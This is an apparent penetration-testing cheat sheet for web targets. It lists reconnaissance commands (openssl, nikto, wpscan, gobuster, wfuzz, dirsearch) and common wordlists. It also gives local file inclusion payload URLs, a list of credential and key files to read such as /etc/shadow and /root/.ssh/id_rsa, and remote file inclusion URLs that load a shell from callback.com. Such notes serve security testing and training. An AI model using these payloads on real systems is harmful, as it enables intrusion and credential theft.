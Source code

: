 # HTTP General Notes

## Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!

## Manual Connect

Using **openssl** to connect to a webserver (HTTPS):

```sh
openssl s_client -connect hack.me:443 [-debug] [-state] [-quiet]
```

- Debug flag optional.
- State is optional - prints the state of the handshake.
- Quiet is optional. 

Using **Httprint** to identify web servers:
`httprint -P0 -h <target hosts> -s <signature file>`

- `-P0` to avoid pinging the host first
- `-h` the list of hosts (IP addresses/IP range)
- `-s` signature file to use

## Common Wordlists to use for Web App Scanning: 

Common Wordlists to use for Web Directory Scanning: 

```
/usr/share/wordlists/dirb/common.txt
/usr/share/wordlists/dirbuster/*.txt
/usr/share/wordlists/wfuzz/general/*.txt
/usr/share/seclists/Discovery/Web-Content/
```

Common Wordlists to use for User Enumeration Scanning: 

```
/usr/share/seclists/Usernames
/usr/share/wordlists/dirbuster/apache-user-enum-2.0
```

## Web App Scanners

Nikto: 

- `nikto --url <domain>`

Wpscan:

- `wpscan --url <domain>`
- `wpscan --url <domain> --enumerate ap at` (All Plugins, All Themes)
- `wpscan --url <domain> --enumerate u` (Usernames)
- `wpscan --url <domain> --enumerate v`

Web Tools for Directory Scanning: 

Dirb: 

- `dirb <domain>`
- `dirb <domain> <wordlist>`

Gobuster: 

- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file>`
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -a Firefox` (Custom Agent)
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html`
- `gobuster dir -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200"`
- `gobuster dir -v -e -u <url> -w /usr/share/wordlists/<Wordlist file> -x .php,.txt,.html -s "200" -o output.txt`
- `gobuster dir -s 200,204,301,302,307,403 -u 172.21.0.0 -w /usr/share/seclists/Discovery/Web_Content/big.txt -t 80 -a 'Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0'`
	

Wfuzz:

- `wfuzz -w wordlist/general/common.txt http://testphp.vulnweb.com/FUZZ`
- `wfuzz -z range,0-10 --hl 97 http://testphp.vulnweb.com/listproducts.php?cat=FUZZ`
- `wfuzz -z file,wordlist/others/common_pass.txt -d "uname=FUZZ&pass=FUZZ"  --hc 302 http://testphp.vulnweb.com/userinfo.php` (Post Requests)
- `wfuzz -z file,wordlist/general/common.txt -b cookie=value1 -b cookie2=value2 http://testphp.vulnweb.com/FUZZ` (Fuzzing Cookies)

Dirsearch: 

- `dirsearch /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 172.21.0.0 -e php`


Other Tools: 
- Burp Suite
- OWASP Zap
- Cadaver
- SQLMap
- Joomscan
- Feroxbuster

## Testing for LFI: 

https://www.exploit-db.com/docs/english/40992-web-app-penetration-testing---local-file-inclusion-(lfi).pdf

Examples: 

http://example.com/index.php?page=etc/passwd
http://example.com/index.php?page=etc/passwd%00
http://example.com/index.php?page=../../etc/passwd
http://example.com/index.php?page=%252e%252e%252f
http://example.com/index.php?page=....//....//etc/passwd

Interesting Files:

Linux:

```
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
```

Windows:

```
/boot.ini
/autoexec.bat
/windows/system32/drivers/etc/hosts
/windows/repair/SAM
```

## Testing for RFI: 

http://example.com/index.php?page=http://callback.com/shell.txt
http://example.com/index.php?page=http://callback.com/shell.txt%00
http://example.com/index.php?page=http:%252f%252fcallback.com%252fshell.txt

## Resources

- Turning LFI to RFI: https://l.avala.mp/?p=241